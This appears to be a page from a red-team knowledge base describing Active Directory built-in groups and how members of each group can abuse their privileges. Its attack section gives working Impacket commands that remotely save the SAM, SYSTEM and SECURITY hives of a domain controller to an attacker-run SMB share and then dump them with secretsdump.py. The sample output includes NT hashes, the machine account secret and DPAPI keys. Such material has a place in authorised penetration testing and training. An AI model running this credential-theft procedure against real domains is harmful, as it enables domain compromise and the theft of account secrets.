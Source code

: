 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Built-In Groups
## References

## Overview
#### Backup Operators

* Members can backup or restore AD and have logon rights to DCs.
* Members can also remoely backup the necessary registry hives to dump SAM and LSA secrest and then perform a DCSync on the offline copy.

#### Account Operators

* References
	* [https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups]
* "This group is considered a service administrator group because it can modify Server Operators, which in turn can modify domain controller settings. As a best practice, leave the membership of this group empty, and do not use it for any delegated administration. This group cannot be renamed, deleted, or moved."
* Members can create and manage users and groups, including its own membership and that of the Server Operators group
* Follow the [Access Control Abuse Guide](Testaments_and_Books/Redvelations/Active_Directory/004-0_AD_Access_Control_Abuse.md) and use the "Add Member" ability

#### Administrators

* Members have full admin rights to the Active Directory domain and Domain Controllers

#### Server Operators

* Members can sign-in to a server, start and stop services, access domain controllers, perform maintenance tasks (such as backup and restore), and they have the ability to change binaries that are installed on the domain controllers

#### DnsAdmins

* Members may read, write, create, or delete DNS records (e.g., edit the wildcard record if it already exists).
* Ability to abuse CVE 2021 40469 to run code via a DLL on a DC operating under the guise of a DNS server -<br />[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40469](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40469)

#### Enterprise Admins
* Members have full admin rights to all Active Directory domains in the AD forest

#### Schema Admins
* Members can modify the schema structure of the Active Directory. Only the objects created after the modification are affected.

#### Group Policy Creators Owners
* Members can create Group Policies in the domain. Its members can't apply group policies to users or group or edit existing GPOs.

#### Cert Publishers
* Members are usually the servers managing ADCS

## Attacks
### From a Linux Machine

#### Account Operators


#### Backup Operators
1. start an SMB share
	* <details><summary>impacket's smbserver.py (Click to expand)</summary><p>
	
			smbserver.py -smb2support "someshare" "./"
	1. Save each hive
		* Manually
			* <details><summary>reg.py (Click to expand)</summary><p>
				* 'HKLM\SAM'

						reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o \\\\$LOCAL_IP\\someshare
				* 'HKLM\SAM'
		
						reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o \\\\$LOCAL_IP\\someshare
				* 'HKLM\SECURITY'
			
						reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o \\\\$LOCAL_IP\\someshare
		* Automatically
			* <details><summary>reg.py (Click to expand)</summary><p>
			
					reg.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$DOMAIN_CONTROLLER backup -o \\\\$LOCAL_IP\\someshare
				* Example Output: reg.py

						root@jack-Virtual-Machine:~/BACKUP# reg.py $DOMAIN/backup_operator:$PASSWORD@$DOMAIN_CONTROLLER backup -o \\\\$LOCAL_IP\\someshare
						Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

						[!] Cannot check RemoteRegistry status. Hoping it is started...
						[*] Saved HKLM\SAM to \\10.0.0.100\someshare\SAM.save
						[*] Saved HKLM\SYSTEM to \\10.0.0.100\someshare\SYSTEM.save
						[*] Saved HKLM\SECURITY to \\10.0.0.100\someshare\SECURITY.save
				* Example Output: smbserver.py

						root@jack-Virtual-Machine:~/BACKUP# smbserver.py -smb2support "someshare" "./"
						Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

						[*] Config file parsed
						[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
						[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
						[*] Config file parsed
						[*] Config file parsed
						[*] Config file parsed
						[*] Incoming connection (10.0.0.1,64435)
						[*] AUTHENTICATE_MESSAGE (\,DC01)
						[*] User DC01\ authenticated successfully
						[*] :::00::aaaaaaaaaaaaaaaa
						[*] Connecting Share(1:IPC$)
						[*] Connecting Share(2:someshare)
						[*] Disconnecting Share(1:IPC$)
						[*] Disconnecting Share(2:someshare)
						[*] Closing down connection (10.0.0.1,64435)
						[*] Remaining connections []
	1. Parse
		* <details><summary>secretsdump.py (Click to expand)</summary><p>

				secretsdump.py -sam $WORKDIR/sam.save -security $WORKDIR/security.save -system $WORKDIR/system.save LOCAL
			* Example Output

					root@jack-Virtual-Machine:~/BACKUP# secretsdump.py -sam /root/BACKUP/SAM.save -security /root/BACKUP/SECURITY.save -system /root/BACKUP/SYSTEM.save LOCAL
					Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

					[*] Target system bootKey: 0x15003c60281cd7a996eb96310d049c6d
					[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
					Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
					Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
					DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
					[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
					[*] Dumping cached domain logon information (domain/username:hash)
					[*] Dumping LSA Secrets
					[*] $MACHINE.ACC 
					$MACHINE.ACC:plain_password_hex:8697a026482afa02a73cee3d403063eaa715de0da2de33761b88e9c68276309a35179e6364bbf0d2597785c0c9ca9646b2c8e827b7389bd039c3528c45db517adcf426fbd403bb0c90d8ec5382f4626f3e242cf44f59c09db3fd63d779e989a148177a29c98e7ebc20a0bf90fbbb064b08690bc1a07b28cd1969d1b74106eb309692b04dc170c92056ddd4c9f787cf3faa8782271d36d8305c53bea89331a7d1288e9481f9d4bdd299d17e66d226f1394b8be268fa0742d8c521951bc500ca4dc4bc98ecbd52ae33ddc66ff6e880484c91101243912950852da90da2af1cc9f259f22068bcb076ad0a0f1ec8240ccfab
					$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:94f2721f78c81bb17b4e3b39acb1cba0
					[*] DPAPI_SYSTEM 
					dpapi_machinekey:0x0b044ecf4f4a1be9006e6fff2af9e329153876af
					dpapi_userkey:0xe2732c2d9d9468156b8a93e92a678b4abc7f3f30
					[*] NL$KM 
					 0000   D4 DF 59 C5 35 32 C8 06  9D 97 22 81 BA F2 8B 61   ..Y.52...."....a
					 0010   AC 89 D7 B3 35 EC 1C BD  45 01 EF 69 BF 44 CE 75   ....5...E..i.D.u
					 0020   E8 7C F2 07 AF 1C BB 2B  67 BE BD 58 A1 ED 34 D4   .|.....+g..X..4.
					 0030   E8 08 4E DE 84 69 50 5F  70 2E E0 5A 40 28 F8 92   ..N..iP_p..Z@(..
					NL$KM:d4df59c53532c8069d972281baf28b61ac89d7b335ec1cbd4501ef69bf44ce75e87cf207af1cbb2b67bebd58a1ed34d4e8084ede8469505f702ee05a4028f892
					[*] Cleaning up...

